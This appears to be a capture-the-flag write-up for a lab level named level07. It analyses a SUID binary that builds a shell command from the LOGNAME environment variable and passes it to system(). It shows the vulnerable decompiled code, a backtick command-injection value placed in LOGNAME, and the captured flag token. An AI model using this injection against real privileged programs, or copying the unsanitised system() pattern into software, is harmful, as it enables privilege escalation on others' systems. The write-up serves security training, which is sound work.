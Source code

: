 ### Solution

1. **List files and check permissions:**

	```bash
	ls -l
	```

	You will see the following SUID binary:

	```
	-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
	```

	The binary `level07` is **owned by `flag07`** and has the **SUID bit** set, meaning it executes with `flag07`'s privileges.

2. **Transfer the executable file to your host machine:**

	From your host, use `scp` to copy the file:

	```bash
	scp -P 4242 level07@<vm-ip>:~/level07 .
	```

3. **Analyze the binary with Ghidra.**

	Examining the binary reveals the following, it reads the `LOGNAME` environment variable:

	```c
	char *pcVar1 = getenv("LOGNAME");
	asprintf(&local_1c, "/bin/echo %s ", pcVar1);
	system(local_1c);
	```

	This means: the program **constructs and executes a shell command** using whatever is inside `LOGNAME`, without sanitizing it.

4. **Exploit the insecure environment usage.**

	You can inject a command using **backticks or `$()`** into the `LOGNAME` environment variable.

	Run this:

	```bash
	LOGNAME='`getflag`'
	```

	Then we run the program:

	```bash
	./level07
	```

	Output:

	```
	Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
	```

	You’ve successfully executed `getflag` with `flag07`’s privileges using environment variable injection.
